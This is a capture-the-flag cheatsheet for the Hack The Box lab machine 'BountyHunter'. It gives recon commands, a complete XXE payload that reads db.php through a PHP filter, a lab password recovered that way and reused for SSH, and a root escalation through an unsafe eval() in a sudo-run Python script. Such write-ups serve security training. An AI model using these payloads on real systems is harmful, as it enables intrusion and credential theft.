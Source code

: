 # HTB: BountyHunter — Command Cheatsheet

## 📌 Box Info
- **Name:** BountyHunter
- **IP:** _Dynamic (HTB Hosted)_
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp <IP>
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts <IP>
```

---

## 🕵️ Web Enumeration
```bash
# Add to /etc/hosts
<IP> bountyhunter.htb

# Fuzz VHosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://bountyhunter.htb -H "Host: FUZZ.bountyhunter.htb" --fs 194
```

### Identified:
- **www.bountyhunter.htb** (Default Page)
- **tracker_diRbPr00f314.php** (Found via Burp/Form Submission)

---

## 📂 XML/XXE Exploitation
### Decode Burp Request:
1. URL-decode `data`
2. Base64-decode result
3. XML structure remains

### Exploit XXE to Read Files
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
  <title>test</title>
  <cwe>123</cwe>
  <cvss>5</cvss>
  <reward>&xxe;</reward>
</bugreport>
```

### Encode for Delivery:
- Base64 the above
- URL encode the Base64

### Submit via Burp:
```http
POST /tracker_diRbPr00f314.php
...
data=<encoded payload>
```

### Result:
```bash
# Decode base64 response to read db.php
cat result.b64 | base64 -d
```

### Extracted Password:
```bash
# dbpassword: m19RoAU0hP41A1sTsq6K
```

---

## 🔐 Shell as Development
```bash
ssh development@<IP>
# password: m19RoAU0hP41A1sTsq6K
```
```bash
cat ~/user.txt
```

---

## 🖕 Root Escalation
### Check sudo perms:
```bash
sudo -l
```
```bash
# Result:
(root) NOPASSWD: /opt/ticketValidator/ticketValidator.py
```

### Inspect Script:
```python
# dangerous line
validationNumber = eval(x.replace("**", ""))
```

### Bypass Ticket Format:
```bash
# Example ticket:
cat << EOF > /tmp/ticket
== Ticket ==
TicketCode: 18
**101+1
EOF
```

### Run Validator with Ticket:
```bash
sudo /opt/ticketValidator/ticketValidator.py /tmp/ticket
```

### Get Root Flag:
```bash
cat /root/root.txt
```

---

## 📚 Summary
- Web endpoint: `/tracker_diRbPr00f314.php`
- Encodings: URL, Base64
- Data format: XML
- Attack: XXE
- XXE Bypass with: PHP filters (`php://filter/...`)
- Priv Esc: Insecure use of `eval()` in sudo Python script

---

## 📚 Resources
- [SecJuice BountyHunter Walkthrough](https://www.secjuice.com/htb-bountyhunter-walkthrough/)
- [PayloadAllTheThings: XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

